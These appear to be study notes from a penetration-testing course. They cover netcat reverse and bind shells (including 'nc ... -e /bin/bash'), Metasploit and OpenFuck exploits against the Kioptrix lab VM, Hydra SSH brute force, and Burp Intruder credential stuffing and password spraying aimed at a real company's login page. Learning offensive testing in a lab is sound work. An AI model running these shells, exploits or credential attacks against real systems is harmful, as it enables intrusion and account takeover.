 1. Exploitation Basics

Different types of shells we are going to see:

**Reverse Shell** - most common (95% of the time..)

Reverse >> The victim connects to us instead of us to them
Shell >> Access to a machine 
Target is connecting, attack box is listening 

![38747e46f511fed12207c5520e3e3d11.png](../../_resources/eb1efacf473c4430976a773bef21e962.png)

We open our 4444 port and it is listening. After we fire off an exploit, the target will connect to the same port and execute a /bin/sh shell
> i.e. all we do with a reverse shell is listen. Target connects to us.

**Bind Shell** (5% of the time..)
We open up a port on the target machine, then we connect to it

![4461fbd3876b2e06fadbdf53e541321d.png](../../_resources/4c932f693dcb4520a5b13a0fee6c27f3.png)

We fire off an exploit, the exploit opens up a port, then it is listening for us to connect. When we connect on that port and get the shell
> i.e. we connect to the target

> least used, most typically on an external assessment 
e.g. when we have to bypass some sort of firewall

## Netcat

### Reverse Shell - victim connects to us
On 'attacker'
```
nc -nvlp 4444
```
`listening on [any] 4444...`

On 'victim'
```
nc 10.0.2.4 4444 -e /bin/bash
```

On 'attacker'
`connect to [IP] from (UNKNOWN) [IP] port`
> can now run commands

### Bind Shell - we connect to the victim
On 'victim'
```
nc -nvlp 4444 -e /bin/bash
```
> i.e. listening and at the same time offering the shell
`listening on [any] 4444...`

On 'attacker'
```
nc 10.0.2.4 4444
```
> We get shell


## Staged versus non-staged payloads

**Payload** - what we are going to run as an exploit. I.e. when we run an exploit on a target, that is called a payload. We send it to attempt to get a shell on the machine

Two main types of payloads:

**Non-staged**
- Sends exploit shellcode all at once
- Larger in size and won't always work
> Example: windows/meterpreter_reverse_tcp

**Staged**
- Sends payload in stages
- Can be less stable
> Example: windows/meterpreter/reverse_tcp

the meterpreter/ identifies it is a staged payload i.e. meterpreter is stage 1, reverse_tcp stage 2 etc. while meterpreter_reverse_tcp is all one stage

If you have a payload that does not work or fails, can try the other type of payload

***
***
We are going to try and exploit Kioptrix with the Samba 2.2 vulnerability 'trans2open' exploit
(`# searchsploit Samba 2.2`)

Run metasploit > `search trans2open`
We know victim is running RedHat, so we will choose the 'Linux' module

```
1  exploit/linux/samba/trans2open    2003-04-07       great  No     Samba trans2open Overflow (Linux x86)
```
`msf> use 1`
`msf> options` --> specify host and port (set rhosts)
Can also `msf> show targets` (not necessary in this case but sometimes we have attack choices)
`msf> run` OR `msf> exploit`

If it is not working, ,and we show options again, now metasploit will show us payload options

First, we can see that we are running a staged payload
Good idea to change LPORT 4444 as it is the default meterpreter port and easily detected
	
`set payload linux/x86/...` hit TAB
We see a couple staged meterpreter payloads.
We find a couple 'shell' options and finally some that are unstaged. We will try the shell_reverse_tcp
Check payload in options and then run again

We got root with metasploit!

## Manual exploitation

Try Github OpenLuck exploit
After installing it, compile it
```
gcc -o open OpenFuck.c -lcrypto
```

```
 Usage: ./open target box [port] [-c N]
```

we had Apache 1.3.20 and RedHat Linux so look for that
Here: 0x6b

Syntax:
```shell
./open 0x6b 10.0.2.15 -c 40
```
We get root shell - Cool

***

If we see **SSH** we will try to Brute Force it
1. To test password strenghth
2. See if we can get in with a weak or default password
3. Test how well the Blue team performs
	- Do they catch us, do they see we are trying to brute force. Should alert! Be loud! Hope to be caught.

Helps to fine tune Blue Team

We can test that using Brute Force as we saw the open SSH port

Using **Hydra**

```shell
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://10.0.2.15:22 -t 4 -V
```
Using 4 threads/attempts, -V for verbose, -P for the password list
> can Ctrl-C and the session will exit but with the option to resume it. A file is written wchich we can run with Hydra -R (for repeat)

Can also try using **Metasploit**
`>search ssh`
Found `auxiliary/scanner/ssh/ssh_login`
```shell
msf> set username root
msf> set rhosts 10.0.2.15
msf> set verbose true
msf> set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
msf> run
```
***

## Credential Stuffing
Injecting breached account credentials in hopes of account takeover


![fe31c0f8ef46cf15aea8e4e3b3a87103.png](../../_resources/a1c4a0d869d44e63b3efb7c809bb1379.png)

Taking found credentials and 'spray and pray', throwing them at a website

Install standard FoxyProxy 
Options > Name it Burp Suite > HTTP
Give it IP 127.0.0.1, port 8080, Save
Can now turn it on and then also open BurpSuite

Instead of having to do the whole 'Preferences' > Advanced options etc. can now just turn this on and off

We go to the tesla sign in page and put an email and a password. Turn intercept ON and click 'Sign in'
Go to line from Burp results and 'Send to Intruder'
highlight email and password and click 'Add' ('Clear' everything else before that)

Specify attack type: "Pitchfork"
Go to Payloads: take list of users and copy paste it
On second list, take passwords and paste it

Once the attack is initiate, it will try all the combinations of the usernames and passwords we provided, at the "variables" we specified. List 1 and 2 will only try usernames and passwords line by line in order 1-2, 1-2 so on, not all with all. "Start Attack" etc.

Check status code number, check response to see whether any results where successful. There is a grep that we can match what kind of output to leave out.

If we want to do **password spraying** it is using a list of username without a known password. This time, clear password variable and keep only email/username.

Gather and enter list of all usernames found, and we can add a password like password=XYZ

BUT make sure we don't log out any users. Need to know the log out policy. Do 1-2 at a time, and every now and then (so it can reset the amount of tries)

e.g. password=Password123!, also Attack="Sniper"
In payloads, only the emails have been kept
++ always check default credentials

If we are doing Brute Force and Scanning activities, make sure to note down if it alerted anyone oor if anyone noticed / detected it

